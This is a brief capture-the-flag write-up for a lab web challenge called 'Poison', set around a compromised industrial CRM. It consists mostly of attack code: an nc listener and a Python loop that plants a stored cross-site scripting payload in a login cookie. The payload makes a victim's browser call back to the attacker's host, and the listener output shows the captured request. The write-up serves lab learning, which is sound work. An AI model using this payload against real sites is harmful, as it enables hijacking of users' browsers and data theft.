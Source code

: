 ```yaml
---
title: Poison
categories: Web Exploitation
tags: 
draft: true
completedDuringEvent: true
submitted: true
points: 90
solves: -1
flag: THM{REDACTED}
---
```

> The CRM interface on the plant's internal network was supposed to help operators manage sensor maintenance and schedule firmware patches. Instead, someone turned it into a silent threat vector.
>
> A lab technician reported several inconsistencies. Data from the interface showed altered update statuses, injected redirects, and phantom users. Moments later, a batch of remote firmware triggers was misrouted… straight into the wrong PLCs.

---

```sh
nc -lnvp 1337
```

```py
import requests
import time

url = "http://10.10.67.238:8000/user.php"
cookie_value = "<script>setTimeout(() => fetch('http://10.17.37.98:1337/'), 2000)</script>"
cookies = {
    "loggedin": cookie_value
}

while True:
    try:
        response = requests.get(url, cookies=cookies)
        print(f"[+] Sent payload. Status: {response.status_code}")
        print(f"[+] Response body: {response.text}")
    except Exception as e:
        print(f"[-] Error: {e}")

    time.sleep(1)
```

```sh
$ $ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.17.37.98] from (UNKNOWN) [10.10.67.238] 48698
GET / HTTP/1.1
Host: 10.17.37.98:1337
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36 THM{REDACTED}
Accept: */*
Origin: http://10.10.67.238:8000
Referer: http://10.10.67.238:8000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

`User-Agent: ... Safari/537.36 THM{REDACTED}`
